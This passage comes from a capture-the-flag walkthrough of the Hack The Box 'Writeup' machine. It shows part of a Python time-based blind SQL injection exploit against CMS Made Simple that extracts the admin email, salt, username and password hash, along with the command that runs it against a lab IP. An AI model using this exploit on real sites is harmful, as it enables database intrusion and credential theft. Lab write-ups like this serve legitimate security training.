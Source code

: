     def dump_email():
        global flag
        global email
        global output
        ord_email = ""
        ord_email_temp = ""
        while flag:
            flag = False
            for i in range(0, len(dictionary)):
                temp_email = email + dictionary[i]
                ord_email_temp = ord_email + hex(ord(dictionary[i]))[2:]
                beautify_print_try(temp_email)
                payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+email+like+0x" + ord_email_temp + "25+and+user_id+like+0x31)+--+"
                url = url_vuln + "&m1_idlist=" + payload
                start_time = time.time()
                r = session.get(url)
                elapsed_time = time.time() - start_time
                if elapsed_time >= TIME:
                    flag = True
                    break
            if flag:
                email = temp_email
                ord_email = ord_email_temp
        output += '\n[+] Email found: ' + email
        flag = True

    dump_salt()
    dump_username()
    dump_email()
    dump_password()

    if options.cracking:
        print colored("[*] Now try to crack password")
        crack_password()

    beautify_print()
    ```

3. Execute the exploit script:

    ```shell
    python cmsmadesimple22-sql.py -u http://10.10.10.138/writeup
    ```

    ![htb-writeup-pythonhash](htb-writeup-pythonhash.png)

    As you can see, the result isn't proper, it's missing some characters. Another adjustment to the script was the TIME parameter. Adjusting the time to a sleep a few more seconds produced accurate results.
